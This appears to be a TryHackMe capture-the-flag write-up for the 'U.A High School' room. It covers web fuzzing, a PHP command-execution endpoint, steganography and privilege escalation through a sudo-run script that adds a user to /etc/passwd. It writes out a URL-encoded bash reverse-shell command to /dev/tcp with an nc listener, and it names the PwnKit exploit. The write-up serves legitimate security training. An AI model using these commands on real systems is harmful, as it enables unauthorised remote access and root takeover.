 # Writeup for Room "U.A High School"

This is the writeup for the box U.A High School

## 🔍 Enumeration Phase

## 1. WebSite
- The website is running on Apache.
- No useful information was found in `robots.txt`.

    ![WebSite](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/00.png)

    ![robots.txt](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/01.png)

## 2. Fuzzing
-  **Dirbuster / Gobuster** was used to find directories and files, the following images show the results:

    ![Fuzzing](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/02.png)

> [!NOTE]
> There is a file named ```index.php``` in the ```/assets/``` directory, the content of the file was:

![index.php](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/03.png)

## 📡 3. Nmap Scan
- The following information was found:
  - The port 22 is open. **SSH**
  - The port 80 is open. **HTTP (Apache)**

    ![Nmap Scan](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/gotta-catch'em-all!/screenshots/04.png)

## 4. More Fuzzing 
- After performing a more extensive investigation, the software ```dirsearch``` allows us to use the command ```dirsearch -u http://<ip>/assets/index.php``` to find more directories and checks the urls for more information.

    ![dirsearch](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/05.png)

> [!NOTE]
> Dirsearch shows us a url where I can execute shell commands, the url is: ```http://<ip>/assets/index.php?cmd=whoami```

![cmd](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/06.png)

## 🌐🖥️ 5. WebSite - Reverse Shell
- I decided to execute a reverse shell by injecting the following command in the URL: ```bash+-c+'bash+-i+>%26+/dev/tcp/ip/4444+0>%261'```.

    ![command-01](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/07.png)

- Then, I set up a listener with: ```nc -nvlp 4444```.

    ![command-02](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/08.png)

- I started navigating backwards in the current directory and found a folder named Hidden_Content, which contains a file called passphrase.txt. Inside, there is a Base64-encoded string: ```QWxsbWlnaHRGb3JFdmVyISEhCg==```.

    ![passphrase.txt](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/09.png)

- The passphrase decoded is: ```AllmightForEver!!!```

    ![passphrase-2.txt](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/10.png)

- The home has the following directories : 

    ![home-directories](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/11.png)

- I have seen the first flag but I got permission denied when I try to access the file.

    ![first-flag](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/12.png)

- I to try to access by ssh with the user ```deku``` with the passphrase found before but without success.

    ![ssh-connection](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/13.png)

- I have found several images in the ```/var/www/html/assets/images/``` directory.

    ![images](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/14.png)

- I have downloaded the images :

    ![images-2](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/15.png)

## 🕵️‍♂️🖼️ 6. Steganography

- I have used file and binwalk to check if the image has hidden information.

    ![stegonography](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/16.png)

- I have used steghide with passphrase to extract the hidden information from the image but wihtout success.

    ![steghide](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/17.png)

- The ```oneforall.jpg```image is corrupted, I have changed the magic bytes to the following:

    ![magic-bytes](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/18.png)

- Now if I use steghide with the passphrase, I get new credentials.

    ![steghide-2](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/19.png)

    ![cred](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/20.png)

## 🔑 7. SSH Access

- I have used the credentials to connect to the machine:
  
    ![ssh-access](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/21.png)

- Here, I have gotten the first flag ```user.txt```

    ![user.txt](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/22.png)

## 🐚💻🚀 8. Privilege Escalation

- I have tried to use the command ```sudo -l``` to check the privileges of the user ```deku```:

    ![sudo-l](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/23.png)

- I am going to use ```linpeas.sh``` into the machine to check vulnerabilities.

    ![linpeas-1](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/24.png)

    ![linpeas-2](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/25.png)

- I have checked the exploit sections: 

    ![exploits](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/26.png)

- If I look the version of the software ```pkexec``` I get the following output:

    ![pkexec](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/27.png)

> [!NOTE]
> The website used to identify the vulnerability has been:
> https://www.exploit-db.com/exploits/50689
> I can use the following vulnerability to escalate privileges: https://ine.com/blog/exploiting-pwnkit-cve-20214034

- I try this but I was not successful, I tried with ```sudo -l``` and the credentials of the user ```deku``` and I got the following output:

    ![sudo-l-2](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/28.png)

- The content file is :

    ![content-file](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/29.png)

- The part about exploiting the feedback.sh file to escalate privileges was quite challenging for me, and without the help of writeups to understand what it does, I wouldn't have been able to achieve it, as I wouldn’t have reached the conclusion of creating a user.

- First, I create a password using the command ```mkpasswd -m md5crypt -s```

    ![mkpasswd](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/30.png)

- After creating the password, this password need be to formated in the following way:

    ![password-format](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/31.png)

- Second, I need to execute the feedback.sh file with the following command ```sudo /opt/NewComer/feedback.sh```

    ![feedback.sh](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/32.png)

- Now if I use the command ```tail -n1 /etc/passwd```, I can see the new user created.

    ![new-user](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/33.png)

- Finally, I can do a ```su MC``` with the password

    ![su-mc](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/34.png)

- I have gotten the second flag ```root.txt``` into the home directory of the user ```MC```

    ![root.txt](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/u.a.-high-school/screenshots/35.png)